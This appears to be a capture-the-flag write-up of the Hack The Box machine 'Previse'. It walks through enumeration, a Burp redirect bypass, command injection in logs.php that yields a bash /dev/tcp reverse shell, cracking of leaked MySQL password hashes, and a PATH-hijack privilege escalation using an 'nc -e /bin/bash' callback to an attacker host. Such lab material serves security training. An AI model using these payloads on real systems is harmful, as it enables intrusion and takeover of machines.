# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.63.78

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-12 12:08 BST
Nmap scan report for 10.129.63.78
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 784.71 seconds
"
```

```bash
nmap -p 22,80 -sC -sV 10.129.63.78

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-12 12:21 BST
Nmap scan report for 10.129.63.78
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
|_  256 33c189ea5973b1788438a421100c91d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
"
```

## **View Website**



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.63.78/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.63.78/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/12 12:22:25 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.129.63.78/css/]
/favicon.ico          (Status: 200) [Size: 15406]                             
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.129.63.78/js/] 
/server-status        (Status: 403) [Size: 277]                               
                                                                              
===============================================================
2023/10/12 12:23:48 Finished
===============================================================
"
```

## Website Manipulation

### Turn on Burp Suite Proxy



Goto to Proxy > Options

### Replacing 302 Found to 200 OK



Click Add to add a rule



The Response header should change from `302 Found` to `200 OK`



This should be the result of index.php through response header manipulation.

### Generating Account



Goto `ACCOUNTS` tab



Create Account





After the task is done disable the response header manipulation and login to the website with the created credentials



## Enumerating the Website





Download the `SITEBACKUP.ZIP` to do further enumeration later

## Searching for any Credentials or Vulnerabilities inside Log Data



```bash
cat out.log

"
time,user,fileID
1622482496,m4lwhere,4
1622485614,m4lwhere,4
1622486215,m4lwhere,4
1622486218,m4lwhere,1
1622486221,m4lwhere,1
1622678056,m4lwhere,5
1622678059,m4lwhere,6
1622679247,m4lwhere,1
1622680894,m4lwhere,5
1622708567,m4lwhere,4
1622708573,m4lwhere,4
1622708579,m4lwhere,5
1622710159,m4lwhere,4
1622712633,m4lwhere,4
1622715674,m4lwhere,24
1622715842,m4lwhere,23
1623197471,m4lwhere,25
1623200269,m4lwhere,25
1623236411,m4lwhere,23
1623236571,m4lwhere,26
1623238675,m4lwhere,23
1623238684,m4lwhere,23
1623978778,m4lwhere,32
1697208739,daeisbae,32
1697208739,daeisbae,32
"
```

Nothing special here!

# Exploitation

## Searching for any Credentials or Vulnerabilities inside siteBackup.zip

```bash
unzip siteBackup.zip 

"
Archive:  siteBackup.zip
  inflating: accounts.php            
  inflating: config.php              
  inflating: download.php            
  inflating: file_logs.php           
  inflating: files.php               
  inflating: footer.php              
  inflating: header.php              
  inflating: index.php               
  inflating: login.php               
  inflating: logout.php              
  inflating: logs.php                
  inflating: nav.php                 
  inflating: status.php
"
```

### Config.php

```bash
cat config.php

"
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
"
```

The code above contains the mysql credentials, unfortuantely mysql is running locally so we don’t have a way to exploit it.

### Logs.php

```php
cat logs.php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>
```

Take a look at the code above. We can see that the php retrieves the delim and passes the information to shell process that is executing `python log_process.py`

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");

`
# How we are going to exploit
/usr/bin/python /opt/scripts/log_process.py <Command through delim>
/usr/bin/python /opt/scripts/log_process.py comma & bash -c "sh -i& /dev/tcp/<attacker ip>/4444 0>&1"
`
```

Imagine the code above, we exploit this to make the victim computer requesting for a reverse shell

### Turn on Burp Suite and Proxy logs.php


### Listen to Reverse Shell and Exploit


```
delim=comma;bash%20-c%20"sh%20-i%20>%26%20/dev/tcp/<attacker ip>/4444%200>%261"
```

The code above is the code used to make the victim computer request for reverse shell

```bash
nc -lvnp 4444

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.95.185.
Ncat: Connection from 10.129.95.185:37004.
sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$
`
```

# Privilege Escalation

## To M4lware

Previously we gained `config.php` from `siteBackup.zip`. We couldn’t get into the system, because Mysql was only available through localhost.

```
host: localhost
username: root
password: mySQL_p@ssw0rd!:)
```

### Logging into MySql

```bash
mysql -u root -p

"
Enter password: mySQL_p@ssw0rd!:)

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
"
```

### Show List of Databases

```sql
mysql> show databases;

"
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
"
```

### Accessing Previse Database

```sql
mysql> use previse

"
use previse
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
"
```

### Show list of tables

```sql
mysql> show tables;

"
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
"
```

### Retrieve all the accounts

```sql
mysql> SELECT * FROM accounts;

"
SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | daeisbae | $1$🧂llol$g99CPRnCoaJ6XT.4gUP7K. | 2023-10-14 08:14:02 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
"
```

The password is in hash format. We need to bruteforce the password to find the hash

### Bruteforcing the Hash

You can find the format of the hash below

[example_hashes    [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=example_hashes)

```bash
hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt

"
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-DO-Regular, 5841/5905 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit =>

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Sat Oct 14 10:07:51 2023 (13 mins, 43 secs)
Time.Estimated...: Sat Oct 14 10:21:34 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     9129 H/s (5.66ms) @ Accel:32 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413376/14344385 (51.68%)
Rejected.........: 0/7413376 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidates.#1....: ilovecody98 -> ilovecloandlivey

Started: Sat Oct 14 10:07:48 2023
Stopped: Sat Oct 14 10:21:35 2023
"
```

```bash
username: m4lwhere
password: ilovecody112235!
```

### SSH into the system

```bash
ssh m4lwhere@10.129.89.137

"
m4lwhere@10.129.89.137's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 14 09:27:01 UTC 2023

  System load:  0.0               Processes:           175
  Usage of /:   49.5% of 4.85GB   Users logged in:     0
  Memory usage: 21%               IP address for eth0: 10.129.89.137
  Swap usage:   0%

0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ whoami
m4lwhere
m4lwhere@previse:~$
"
```

## To Root

### Checking Sudo Privilege

```bash
m4lwhere@previse:~$ sudo -l

"
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
"
```

### Checking access_backup.sh Permissions

```bash
m4lwhere@previse:~$ ls -al /opt/scripts

"
total 16
drwxr-xr-x 2 root     root     4096 Jul 26  2021 .
drwxr-xr-x 3 root     root     4096 Jul 26  2021 ..
-rwxr-xr-x 1 root     root      486 Jun  6  2021 access_backup.sh
-rw-r--r-- 1 m4lwhere m4lwhere  320 Jun  6  2021 log_process.py
"
```

We can’t modify `access_backup.sh`.

### access_backup.sh

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Here it seems like the code is pretty fine. But, the program `gzip`'s path is not specified. We can modify the PATH of gzip to trigger our program in root privilege which is named gzip

### Listen to Reverse Shell and Exploit

```bash
cd /tmp
echo "nc <attacker ip> 4443 -e /bin/bash" > gzip
chmod +x gzip
export PATH=/tmp:$PATH
cd /opt/scripts
sudo ./access_backup.sh
```

What we are doing here is modifying the environment PATH of the program `gzip`. We are doing this, because the the code inside `access_backup.sh` didn’t specify the **absolute path** for the program. Hence we can make the default gzip to be `/tmp/gzip` and not `/bin/gzip`

```bash
nc -lvnp 4443

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.129.89.137.
Ncat: Connection from 10.129.89.137:35816.
whoami
root
python -c 'import pty;pty.spawn("/bin/bash")'
root@previse:/opt/scripts#
`
```

# Reference

- [https://0xdf.gitlab.io/2022/01/08/htb-previse.html#website---tcp-80](https://0xdf.gitlab.io/2022/01/08/htb-previse.html#website---tcp-80)
- [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [https://offbyone.tistory.com/54 (Korean → For mysql enumeration)](https://offbyone.tistory.com/54)